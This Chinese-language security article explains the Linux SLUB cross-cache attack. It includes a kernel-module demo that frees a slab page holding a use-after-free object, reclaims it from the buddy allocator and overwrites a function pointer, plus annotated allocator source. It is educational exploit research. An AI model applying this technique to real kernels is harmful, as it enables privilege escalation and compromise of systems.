









# Cross cache Attack技术细节分析-先知社区

> **来源**: https://xz.aliyun.com/news/16297  
> **文章ID**: 16297

---

# Cross cache Attack技术细节分析

### 技术步骤

需要先释放`slab page` 然后从伙伴系统从取出完成跨缓存攻击

先需要了解：每个`slab`中的`object`数量和`object` 大小，包括`cpu_partial`这个阈值很重要，之后源码分析的时候会重点分析。

根据下图的一个大致步骤就能把**独立**的`slab`释放到`buddy system` 中，然后从`buddy` 中申请出来完成跨缓存攻击。



#### 详细分析步骤流程

第一步 => 申请:(cpu\_partial+1) \* objs\_per\_slab

因为在slab中可能会已经存在一下object，所以申请(13+1)\*objs\_per\_slab的object后会占有14个slabs，第15个slab会不满。



第二步 => 申请:objs\_per\_slab-1 个objects

主要目的是超过`cpu_partial`的一个阈值，所以还要继续申请满一个slab 然后后面的一个slab不要满就行



第三步 => 申请：一个 object (UAF )

这样申请的`uaf object`就会存在第16个slab中，然后我们继续让这个slab满载



第四步 => 申请: objs\_per\_slab + 1

让`uaf object`存在的`page`页都被申请完就可以



第五步 => 释放: uaf object

这个时候释放`uaf object`，因为所在的slab是满的，会触发`put_cpu_partial()`,挂载到`partial`链上，但是因为没有达到`cpu_partial_list`的阈值，所以现在不会进行`unfreeze_partials()`处理。



第六步 => 释放:uaf object的page 的所有 object

在第一次释放uaf object的时候slab就属于未满状态，会触发`put_cpu_partial()`,挂载到`partial`链上，所以之后直到空都不会有其他挂链的操作。



第七步 => 释放:`1-14slabs`中各一个`object`

这个时候因为都会成为未满的状态，每个`page`都会触发`put_cpu_partial()`，然后每个`page`都会挂载到`partial`链上，因为`cpu_partial==13`,就会导致后面几次调用`put_cpu_partial()`想要的时候，发现`cpu_partial_list`满了，就会进入`unfreeze_partials()`，然后发现第16个slab已经为空状态，就会调用`discard_slab()`将这个`page`释放。



#### demo

写了个kernel demo演示 cross page attack的完整过程：[mowenroot/Kernel](https://github.com/mowenroot/Kernel)



测试内核版本`5.15.0-122`

```
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/mm.h>
#include <linux/module.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/slub_def.h>

#define OBJECT_SIZE 0x200
#define OBJS 1024
#define OO_SHIFT 16 // 定义位移
#define OO_MASK ((1 << OO_SHIFT) - 1)

struct demo_struct
{
    union 
    {
        char data[OBJECT_SIZE];
        struct 
        {
            void (*func)(void);
            char padding [OBJECT_SIZE-8];
        };

    };

}__attribute__((aligned(OBJECT_SIZE)));


static struct kmem_cache *my_cache_ptr;
struct demo_struct **ds_list;
struct demo_struct *ds_tmp;

void hello_func(void){
    printk("() => hello func");
}
void hack_func(void){
    printk("() => hack func : cross page attack success");
}

static int demo_init(void){

    unsigned int cpu_partial,objs_per_slab;
    static unsigned int ds_sp=0;
    int i,uaf_obj_index,page_order;
    unsigned long page_size;
    struct demo_struct* uaf_object,*random_ms;
    void* target_page_virt,*realloc_page_virt;
    struct page* realloc_page;

    printk("\ndemo attack start\n");
    ds_list = kmalloc(sizeof(struct demo_struct *)*OBJS,GFP_KERNEL|__GFP_ZERO);

    /*
        kmem_cache_create 用于 linux 内核中创建内存缓存
        name = 缓存名称 ， size = 每个对象的大小
        align 对齐要求，默认0对齐 ，
        flags 缓存标志 SLAB_HWCACHE_ALIGN 对象在高速缓存中对齐
            SLAB_PANIC 分配失败时panic
            SLAB_ACCOUNT 内存计数
        constructor 构造函数 
    */
    my_cache_ptr = kmem_cache_create(
        "demo_struc",sizeof(struct demo_struct),0,
        SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT,NULL); 

    cpu_partial=my_cache_ptr->cpu_partial;
    objs_per_slab=my_cache_ptr->oo.x & OO_MASK;
    page_size=objs_per_slab*(my_cache_ptr->object_size);
    page_order = get_order(page_size);

    printk("cache info:");
    printk(">>cache name -> %s\n",my_cache_ptr->name);
    printk(">>objs_per_slab -> %u\n",objs_per_slab);
    printk(">>object_size -> 0x%x\n",my_cache_ptr->object_size);
    printk(">>cpu_partial -> %u\n",cpu_partial);
    printk(">>page_size:0x%lx -> page_order:%d\n",page_size,page_order);


    random_ms =kmem_cache_alloc(my_cache_ptr,GFP_KERNEL);
    printk("Alloc a random object at %p\n",random_ms);
    kmem_cache_free(my_cache_ptr,random_ms);


    printk("\n===================STEP 1===================");
    printk("Alloc : (cpu_partial+1) * objs_per_slab objects");
    printk("Alloc : %u * %u == %u\n",cpu_partial+1,objs_per_slab,(cpu_partial+1)*objs_per_slab);
    /* kmem_cache_alloc 分配从指定内存缓存中分配内存 */
    for (i = 0; i < (cpu_partial+1)*objs_per_slab; i++)
    {
        ds_list[ds_sp++]=kmem_cache_alloc(my_cache_ptr,GFP_KERNEL);
    }


    printk("\n===================STEP 2===================");
    printk("Alloc : objs_per_slab+1(%u) objects\n",objs_per_slab+1);

    for ( i = 0; i < objs_per_slab+1; i++)
    {
        ds_list[ds_sp++]=kmem_cache_alloc(my_cache_ptr,GFP_KERNEL);
    }
    printk("\n===================STEP 3===================");
    printk("Alloc : uaf object");

    uaf_object=kmem_cache_alloc(my_cache_ptr,GFP_KERNEL);
    uaf_obj_index=ds_sp++;
    ds_list[ds_sp]=uaf_object;
    target_page_virt=(void*)((unsigned long)uaf_object & ~(unsigned long)(page_size - 1));
    printk(">> uaf object index: %d", uaf_obj_index);
    printk(">> uaf object at %px, page: %px", uaf_object, target_page_virt);
    printk(">> set function pointer to hello() and call it\n");
    uaf_object->func=hello_func;
    uaf_object->func();

    printk("\n===================STEP 4===================");
    printk("Alloc : objs_per_slab+1(%u) objects\n",objs_per_slab+1);
    for ( i = 0; i < objs_per_slab+1; i++)
    {
        ds_list[ds_sp++]=kmem_cache_alloc(my_cache_ptr,GFP_KERNEL);
    }

    printk("\n===================STEP 5===================");
    printk("Free : uaf object");
    kmem_cache_free(my_cache_ptr,uaf_object);

    printk("\n===================STEP 6===================");
    printk("Free : make uaf object is empty");
    for ( i = 1; i < objs_per_slab ; i++)
    {
        kmem_cache_free(my_cache_ptr,ds_list[uaf_obj_index+i]);
        kmem_cache_free(my_cache_ptr,ds_list[uaf_obj_index-i]);
        ds_list[uaf_obj_index+i]=NULL;
        ds_list[uaf_obj_index-i]=NULL;
    }

    printk("\n===================STEP 7===================");
    printk("Free : free one object per page\n");
    for (i = 0; i <  (cpu_partial+1)*objs_per_slab ; i+=objs_per_slab)
    {
        if(ds_list[i]){
            kmem_cache_free(my_cache_ptr,ds_list[i]);
            ds_list[i]=NULL;   
        }
    }
    printk("let's check if we can get the target page ...");
    /*  alloc_pages 用于分配物理页面 
        order:指定要分配的页面数量,
        实际分配的内存大小为 PAGE_SIZE << order（即 PAGE_SIZE * 2^order）
    */
    realloc_page=alloc_pages(GFP_KERNEL,page_order);
    realloc_page_virt = page_address(realloc_page);
    printk("realloc page at %px\n", realloc_page_virt);
    printk("target page at  %px\n", target_page_virt);
    if(realloc_page_virt==target_page_virt){
        printk("realloc SUCCESS :)");
    }else{
        printk("cross page attack failed :(");
        return -1;
    }
    printk("assume we has the ability to overwrite the content of page");
    for (i = 0; i < page_size / 8; i++) {
        ((void **)realloc_page_virt)[i] = (void *)hack_func;
    }
    printk("now, let's call func again (UAF)");
    uaf_object->func();

    free_page((unsigned long)realloc_page);
    return 0;
}

static void demo_exit(void){
    int i;
    for ( i = 0; i < OBJS; i++)
    {
        if(ds_list[i]){
            kmem_cache_free(my_cache_ptr,ds_list[i]);
        }
    }
    kmem_cache_destroy(my_cache_ptr);
    kfree(my_cache_ptr);
    printk("bye");
}

module_init(demo_init);
module_exit(demo_exit);
MODULE_LICENSE("GPL");
MODULE_AUTHOR("X++D && veritas && mowen");
MODULE_DESCRIPTION("Cross page demo");
MODULE_VERSION("0.1");

```

### 源码分析

`kmem_cache_free()`和`slab_free()`进行释放的时候最终都会调用`slab_free()`进行进一步释放。

```
//>>mm\slub.c
void kfree(const void *x)
{
    struct page *page;
    void *object = (void *)x;
//...
    //取出object 所在的page
    page = virt_to_head_page(x);
    if (unlikely(!PageSlab(page))) {
        //如果不是slab 的page
        //...
        return;
    }
    slab_free(page->slab_cache, page, object, NULL, 1, _RET_IP_);
}

```

`slab_free()`是`do_slab_free()`的封装函数，`do_slab_free()`中会有一个`cpu`快速释放的动作，如果当前`object`的`page`为`cpu active page`，就会直接插入到链表头部，否则调用`__slab_free()`,我们这里需要走进`__slab_free()`

```
//>>mm\slub.c
/*
 * Fastpath with forced inlining to produce a kfree and kmem_cache_free that
 * can perform fastpath freeing without additional function calls.
 *
 * The fastpath is only possible if we are freeing to the current cpu slab
 * of this processor. This typically the case if we have just allocated
 * the item before.
 *
 * If fastpath is not possible then fall back to __slab_free where we deal
 * with all sorts of special processing.
 *
 * Bulk free of a freelist with several objects (all pointing to the
 * same page) possible by specifying head and tail ptr, plus objects
 * count (cnt). Bulk free indicated by tail pointer being set.
 */
//静态强制内联
static __always_inline void do_slab_free(struct kmem_cache *s,
                struct page *page, void *head, void *tail,
                int cnt, unsigned long addr)
{
    void *tail_obj = tail ? : head;
    struct kmem_cache_cpu *c;
    unsigned long tid;

    //...
    //检查释放的页面 是否于 当前cpu的slab页相同
    if (likely(page == c->page)) {
        //快速路径释放
        void **freelist = READ_ONCE(c->freelist);
        //获取cpu空闲链表 直接插入链表头部
        set_freepointer(s, tail_obj, freelist);
        //...
    } else
        __slab_free(s, page, head, tail_obj, cnt, addr);

```

`__slab_free()`会判断当前`page`是否已经在`partial` 链中或者为 `active page` 会直接释放`object`进入`free lsit`，否则会调用`put_cpu_partial()`,调用`put_cpu_partial()`就需要满足，之前`page`为满状态并且为 `not active` 然后释放了一个`object`。那么在这里我们需要的是释放`page`进`put_cpu_partial()`然后超过`cpu_partial`阈值的一个操作，就需要重复很多次这个操作。

```
//>>mm\slub.c
static void __slab_free(struct kmem_cache *s, struct page *page,
            void *head, void *tail, int cnt,
            unsigned long addr)

{
    void *prior;
    int was_frozen;
    struct page new;
    unsigned long counters;
    struct kmem_cache_node *n = NULL;
    unsigned long flags;

    //...
        prior = page->freelist;
        counters = page->counters;
        set_freepointer(s, tail, prior);
        new.counters = counters;
        //frozen 是指page 在 parial list 中
        was_frozen = new.frozen;
        new.inuse -= cnt;
        /*
            如果page是满的状态，那就没有freelist，既prior==NULL,
            并且满状态也不会存在于partial中,所以 was_frozen == 0
        */
        if ((!new.inuse || !prior) && !was_frozen) {

            if (kmem_cache_has_cpu_partial(s) && !prior) {

                /*
                 * Slab was on no list before and will be
                 * partially empty
                 * We can defer the list move and instead
                 * freeze it.
                 */
                new.frozen = 1;
                //走到这边之后会调用 put_cpu_partial()
            } 
            //...
        }

    } while (!cmpxchg_double_slab(s, page,
        prior, counters,
        head, new.counters,
        "__slab_free"));

    if (likely(!n)) {
        //如果page之前就是 在 parial list 中，那么平时大部分情况都会进入这里
        if (likely(was_frozen)) {
            /*
             * The list lock was not taken therefore no list
             * activity can be necessary.
             */
            stat(s, FREE_FROZEN);
         //只有当 为满状态情况下 然后 释放了一个object 需要加入得到 parial list 进入
        } else if (new.frozen) {
            /*
             * If we just froze the page then put it onto the
             * per cpu partial list.
             */
            put_cpu_partial(s, page, 1);
            stat(s, CPU_PARTIAL_FREE);
        }

        return;
    }

    //...
}

```

进入`put_cpu_partial()`后，会判断当前`partial`链表的长度是否超过了`cpu_partial`，如果超过就会进入`unfreeze_partials()`，做释放`page`的操作，再没有超过阈值的情况下还是会把`page`加入到`partial list` 中。

```
//>>mm\slub.c
static void put_cpu_partial(struct kmem_cache *s, struct page *page, int drain)
{
#ifdef CONFIG_SLUB_CPU_PARTIAL
    struct page *oldpage;
    int pages;
    int pobjects;

    preempt_disable();
    do {
        pages = 0;
        pobjects = 0;
        oldpage = this_cpu_read(s->cpu_slab->partial);

        if (oldpage) {
            // pobjects 为 当前 partial链表的长度
            pobjects = oldpage->pobjects;
            pages = oldpage->pages;
            //超出 cpu_partial 阈值 就会 调用unfreeze_partials()
            if (drain && pobjects > slub_cpu_partial(s)) {
                unsigned long flags;
                /*
                 * partial array is full. Move the existing
                 * set to the per node partial list.
                 */
                local_irq_save(flags);
                unfreeze_partials(s, this_cpu_ptr(s->cpu_slab));
                //...
            }
        }
        //加入 partial  list 
        pages++;
        pobjects += page->objects - page->inuse;

        page->pages = pages;
        page->pobjects = pobjects;
        page->next = oldpage;
    //更新page
    } while (this_cpu_cmpxchg(s->cpu_slab->partial, oldpage, page)
                                != oldpage);
     //...
}

```

`unfreeze_partials()`中也会有插入`partial`链的操作，如果想要把当前`page`加入到`discard_page`中后销毁的，就需要满足`page` 为空(还有一个条件基本上都满足)

```
static void unfreeze_partials(struct kmem_cache *s,
        struct kmem_cache_cpu *c)
{
#ifdef CONFIG_SLUB_CPU_PARTIAL
    struct kmem_cache_node *n = NULL, *n2 = NULL;
    struct page *page, *discard_page = NULL;
    //循环取出page
    while ((page = slub_percpu_partial(c))) {
        struct page new;
        struct page old;

        slub_set_percpu_partial(c, page);

        n2 = get_node(s, page_to_nid(page));
        if (n != n2) {
            if (n)
                spin_unlock(&n->list_lock);

            n = n2;
            spin_lock(&n->list_lock);
        }

        do {

            old.freelist = page->freelist;
            old.counters = page->counters;
            VM_BUG_ON(!old.frozen);
            //拷贝旧属性
            new.counters = old.counters;
            new.freelist = old.freelist;
            // frozen
            new.frozen = 0;
        //旧状态更新到新page
        } while (!__cmpxchg_double_slab(s, page,
                old.freelist, old.counters,
                new.freelist, new.counters,
                "unfreezing slab"));
        // new page 为空 并且 节点的nr_partial大于等于 min_partial
        if (unlikely(!new.inuse && n->nr_partial >= s->min_partial)) {
            //加入到销毁链中
            page->next = discard_page;
            discard_page = page;
        } else {
            //否则 添加到 partial 链中
            add_partial(n, page, DEACTIVATE_TO_TAIL);
            stat(s, FREE_ADD_PARTIAL);
        }
    }

    if (n)
        spin_unlock(&n->list_lock);
    //销毁 page
    while (discard_page) {
        //循环单链表取出每个page
        page = discard_page;
        discard_page = discard_page->next;

        stat(s, DEACTIVATE_EMPTY);
        //释放操作
        discard_slab(s, page);
        stat(s, FREE_SLAB);
    }
#endif  /* CONFIG_SLUB_CPU_PARTIAL */
}

```

`discard_slab()`调用链如下，最终调用`__free_pages()`释放`page`。

```
discard_slab()
    free_slab()
        rcu_free_slab()
            __free_slab()
                __free_pages()

```

这就是`cross page attack`的目的所在，释放了独立的`page`，然后向伙伴系统申请`page`的时候就能跨缓存攻击。

参考链接：

[Cross Cache Attack技术细节分析](https://veritas501.github.io/2023_03_07-Cross Cache Attack技术细节分析/)

[Linux 内核利用技巧: Slab UAF to Page UAF-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/285919#h2-2)

[CVE-2022-29582 - 计算机安全和相关主题](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#how-to-free-a-page)

[CVE-2021–20226：一个参考计数错误，可导致 io\_uring 中的本地权限升级。|作者 Flatt Security Inc. |中等](https://flattsecurity.medium.com/cve-2021-20226-a-reference-counting-bug-which-leads-to-local-privilege-escalation-in-io-uring-e946bd69177a)

[Dirty Pagetable 学习 & 例题 - Henry Martin](https://henrymartin262.github.io/2024/04/10/Dirty-pagetable-study/#Dirty-Pagetable-学习-例题)
